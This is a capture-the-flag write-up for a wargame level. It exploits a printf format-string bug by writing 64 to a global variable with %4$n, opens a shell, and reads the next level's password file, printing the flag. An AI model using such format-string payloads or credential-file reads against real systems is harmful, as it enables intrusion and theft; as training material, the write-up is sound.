 # level3

```sh
$> ls -l ~
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```

In the code, we can see that `printf(str)` is vulnerable, because we can inject anything into the `str` parameter.

```sh
$> python -c 'print("A"*4 + "%p %p %p %p")' | ./level3
AAAA0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```

As we can see, the 4th pointer displayed is injectable.  
In gdb, we can see that there's an `m` variable which is compared to the value `64`.  
`printf` has a special `n` specifier that can write things in memory.  
To write the payload, we get the address of `m` and reverse it. Then, we write 60 bytes of random data, followed by `%4$n` which will write the value `64` to the 4th memory location.

```sh
$> gdb -q level3
(gdb) info variables
[...]
0x0804988c  m

$> python -c 'print("\x8c\x98\x04\x08" + "\x90"*60 + "%4$n")' > /tmp/payload

$> cat /tmp/payload - | ./level3
????????????????????????????????????
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
